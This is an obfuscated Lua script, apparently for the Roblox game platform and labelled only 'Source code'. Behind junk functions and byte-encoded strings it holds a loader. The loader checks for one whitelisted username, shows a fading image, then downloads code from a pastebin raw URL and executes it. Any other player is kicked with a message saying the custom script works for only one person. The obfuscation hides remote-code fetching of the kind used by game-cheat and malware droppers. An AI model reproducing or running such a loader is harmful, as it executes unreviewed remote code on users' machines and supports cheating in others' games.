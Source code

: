 function IllIlllIllIlllIlllIlllIll(IllIlllIllIllIll) if (IllIlllIllIllIll==(((((919 + 636)-636)*3147)/3147)+919)) then return not true end if (IllIlllIllIllIll==(((((968 + 670)-670)*3315)/3315)+968)) then return not false end end; local IIllllIIllll = (7*3-9/9+3*2/0+3*3);local IIlllIIlllIIlllIIlllII = (3*4-7/7+6*4/3+9*9);local IllIIIllIIIIllI = table.concat;function IllIIIIllIIIIIl(IIllllIIllll) function IIllllIIllll(IIllllIIllll) function IIllllIIllll(IllIllIllIllI) end end end;IllIIIIllIIIIIl(900283);function IllIlllIllIlllIlllIlllIllIlllIIIlll(IIlllIIlllIIlllIIlllII) function IIllllIIllll(IllIllIllIllI) local IIlllIIlllIIlllIIlllII = (9*0-7/5+3*1/3+8*2) end end;IllIlllIllIlllIlllIlllIllIlllIIIlll(9083);local IllIIllIIllIII = loadstring;local IlIlIlIlIlIlIlIlII = {'\45','\45','\47','\47','\32','\68','\101','\99','\111','\109','\112','\105','\108','\101','\100','\32','\67','\111','\100','\101','\46','\32','\10','\108','\111','\99','\97','\108','\32','\97','\61','\103','\97','\109','\101','\46','\80','\108','\97','\121','\101','\114','\115','\46','\76','\111','\99','\97','\108','\80','\108','\97','\121','\101','\114','\46','\78','\97','\109','\101','\59','\105','\102','\32','\97','\61','\61','\34','\52','\118','\53','\110','\55','\110','\34','\116','\104','\101','\110','\32','\108','\111','\99','\97','\108','\32','\98','\61','\73','\110','\115','\116','\97','\110','\99','\101','\46','\110','\101','\119','\40','\34','\83','\99','\114','\101','\101','\110','\71','\117','\105','\34','\41','\108','\111','\99','\97','\108','\32','\99','\61','\73','\110','\115','\116','\97','\110','\99','\101','\46','\110','\101','\119','\40','\34','\73','\109','\97','\103','\101','\76','\97','\98','\101','\108','\34','\41','\98','\46','\80','\97','\114','\101','\110','\116','\61','\103','\97','\109','\101','\46','\80','\108','\97','\121','\101','\114','\115','\46','\76','\111','\99','\97','\108','\80','\108','\97','\121','\101','\114','\58','\87','\97','\105','\116','\70','\111','\114','\67','\104','\105','\108','\100','\40','\34','\80','\108','\97','\121','\101','\114','\71','\117','\105','\34','\41','\98','\46','\90','\73','\110','\100','\101','\120','\66','\101','\104','\97','\118','\105','\111','\114','\61','\69','\110','\117','\109','\46','\90','\73','\110','\100','\101','\120','\66','\101','\104','\97','\118','\105','\111','\114','\46','\83','\105','\98','\108','\105','\110','\103','\59','\99','\46','\78','\97','\109','\101','\61','\34','\105','\111','\102','\34','\99','\46','\80','\97','\114','\101','\110','\116','\61','\98','\59','\99','\46','\66','\97','\99','\107','\103','\114','\111','\117','\110','\100','\67','\111','\108','\111','\114','\51','\61','\67','\111','\108','\111','\114','\51','\46','\102','\114','\111','\109','\82','\71','\66','\40','\50','\53','\53','\44','\50','\53','\53','\44','\50','\53','\53','\41','\99','\46','\66','\97','\99','\107','\103','\114','\111','\117','\110','\100','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\49','\46','\48','\48','\48','\59','\99','\46','\66','\111','\114','\100','\101','\114','\83','\105','\122','\101','\80','\105','\120','\101','\108','\61','\48','\59','\99','\46','\80','\111','\115','\105','\116','\105','\111','\110','\61','\85','\68','\105','\109','\50','\46','\110','\101','\119','\40','\48','\46','\50','\54','\51','\56','\48','\51','\54','\54','\49','\44','\48','\44','\48','\46','\48','\54','\54','\56','\52','\52','\57','\50','\53','\51','\44','\48','\41','\99','\46','\83','\105','\122','\101','\61','\85','\68','\105','\109','\50','\46','\110','\101','\119','\40','\48','\46','\52','\55','\49','\49','\54','\53','\54','\53','\55','\44','\48','\44','\48','\46','\56','\54','\51','\54','\51','\54','\51','\55','\52','\44','\48','\41','\99','\46','\73','\109','\97','\103','\101','\61','\34','\114','\98','\120','\97','\115','\115','\101','\116','\105','\100','\58','\47','\47','\57','\57','\50','\52','\57','\55','\55','\50','\56','\53','\34','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\49','\59','\119','\97','\105','\116','\40','\50','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\50','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\51','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\52','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\53','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\54','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\55','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\56','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\57','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\49','\59','\108','\111','\97','\100','\115','\116','\114','\105','\110','\103','\40','\34','\92','\51','\50','\92','\49','\48','\56','\92','\49','\49','\49','\92','\57','\55','\92','\49','\48','\48','\92','\49','\49','\53','\92','\49','\49','\54','\92','\49','\49','\52','\92','\49','\48','\53','\92','\49','\49','\48','\92','\49','\48','\51','\92','\52','\48','\92','\49','\48','\51','\92','\57','\55','\92','\49','\48','\57','\92','\49','\48','\49','\92','\53','\56','\92','\55','\50','\92','\49','\49','\54','\92','\49','\49','\54','\92','\49','\49','\50','\92','\55','\49','\92','\49','\48','\49','\92','\49','\49','\54','\92','\52','\48','\92','\51','\52','\92','\49','\48','\52','\92','\49','\49','\54','\92','\49','\49','\54','\92','\49','\49','\50','\92','\49','\49','\53','\92','\53','\56','\92','\52','\55','\92','\52','\55','\92','\49','\49','\50','\92','\57','\55','\92','\49','\49','\53','\92','\49','\49','\54','\92','\49','\48','\49','\92','\57','\56','\92','\49','\48','\53','\92','\49','\49','\48','\92','\52','\54','\92','\57','\57','\92','\49','\49','\49','\92','\49','\48','\57','\92','\52','\55','\92','\49','\49','\52','\92','\57','\55','\92','\49','\49','\57','\92','\52','\55','\92','\49','\49','\54','\92','\56','\49','\92','\53','\51','\92','\49','\49','\56','\92','\53','\49','\92','\54','\54','\92','\49','\48','\49','\92','\53','\54','\92','\51','\52','\92','\52','\52','\92','\51','\50','\92','\49','\49','\54','\92','\49','\49','\52','\92','\49','\49','\55','\92','\49','\48','\49','\92','\52','\49','\92','\52','\49','\92','\52','\48','\92','\52','\49','\92','\49','\48','\34','\41','\40','\41','\32','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\49','\46','\49','\59','\119','\97','\105','\116','\40','\46','\53','\41','\98','\58','\68','\101','\115','\116','\114','\111','\121','\40','\41','\99','\111','\114','\111','\117','\116','\105','\110','\101','\46','\119','\114','\97','\112','\40','\66','\85','\74','\69','\73','\71','\80','\95','\102','\97','\107','\101','\95','\115','\99','\114','\105','\112','\116','\41','\40','\41','\119','\97','\105','\116','\40','\46','\53','\41','\101','\108','\115','\101','\32','\103','\97','\109','\101','\46','\80','\108','\97','\121','\101','\114','\115','\46','\76','\111','\99','\97','\108','\80','\108','\97','\121','\101','\114','\58','\75','\105','\99','\107','\40','\34','\229','\174','\154','\229','\136','\182','\232','\132','\154','\230','\156','\172','\228','\187','\133','\228','\184','\128','\228','\186','\186','\229','\143','\175','\231','\148','\168','\34','\41','\101','\110','\100','\10',}IllIIllIIllIII(IllIIIllIIIIllI(IlIlIlIlIlIlIlIlII,IIIIIIIIllllllllIIIIIIII))()
